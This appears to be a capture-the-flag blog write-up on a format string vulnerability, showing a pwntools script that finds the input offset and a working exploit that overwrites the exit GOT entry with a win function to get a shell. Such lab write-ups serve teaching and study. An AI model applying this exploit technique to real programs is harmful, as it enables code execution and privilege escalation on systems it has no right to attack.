 ```yaml
---
title: "Format String - GOT Overwrite"
date: 2019-07-19
description: "format string vulnerability 3"
tags: ["Binary Exploitation Series"]
type: post
weight: 20
showTableOfContents: true
---
```


# GOT Overwrite Attack

---

# ⚖️ Challenge Write-up

---

- General Analysis

![Untitled.png](https://hackmd.io/_uploads/SJu6N2Ump.png)

# Functions Analysis

```nasm
pwndbg> info functions 
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401080  puts@plt
0x0000000000401090  printf@plt
0x00000000004010a0  __isoc99_scanf@plt
0x00000000004010b0  exit@plt
0x00000000004010c0  execl@plt
0x00000000004010d0  _start
0x0000000000401100  _dl_relocate_static_pie
0x0000000000401110  deregister_tm_clones
0x0000000000401140  register_tm_clones
0x0000000000401180  __do_global_dtors_aux
0x00000000004011b0  frame_dummy
0x00000000004011b6  win
0x00000000004011f9  main
0x0000000000401260  __libc_csu_init
0x00000000004012d0  __libc_csu_fini
0x00000000004012d8  _fini
pwndbg>
```

# Exploit to find where is our input going

```python
#!/usr/bin/python3

from pwn import *

context.log_level = 'error'
for i in range(1,50):
    io = process('./fmt_write')
    payload = f'AAAAAAAA.%{i}$p'
    io.sendline(payload)
    print(io.recvall(),i)
    io.close()
```

# Output

```markdown
b'Enter String - AAAAAAAA.0xa' 1
b'Enter String - AAAAAAAA.(nil)' 2
b'Enter String - AAAAAAAA.(nil)' 3
b'Enter String - AAAAAAAA.0xa' 4
b'Enter String - AAAAAAAA.0x32' 5
b'Enter String - AAAAAAAA.0x4141414141414141' 6
b'Enter String - AAAAAAAA.0x702437252e' 7
b'Enter String - AAAAAAAA.(nil)' 8
b'Enter String - AAAAAAAA.(nil)' 9
b'Enter String - AAAAAAAA.(nil)' 10
b'Enter String - AAAAAAAA.0x7fd6e2539220' 11
b'Enter String - AAAAAAAA.(nil)' 12
b'Enter String - AAAAAAAA.0xd326dc32a239f00' 13
b'Enter String - AAAAAAAA.0x1' 14
....
```

# Exploit to overwrite GOT value

```python
#!/usr/bin/python3

from pwn import *

context.log_level = 'error'

elf = context.binary = ELF('./fmt_got')

io = process('./fmt_got')
payload = b"%4198838x%8$nAAA" + p64(elf.got.exit)
io.sendline(payload)
io.interactive()
```

# Explanation

```markdown
We find that the address of win function we know that %n puts the value of whatever is the length
of the string preceeding it and thus we take the approach of writing the exploit in such a way.
```

# Output

```markdown
Since in this challenge we were suppose to get the shell as a root user and the exploit is kinda
dirty so it is advisable to go through the challenge for the user and see the results.
```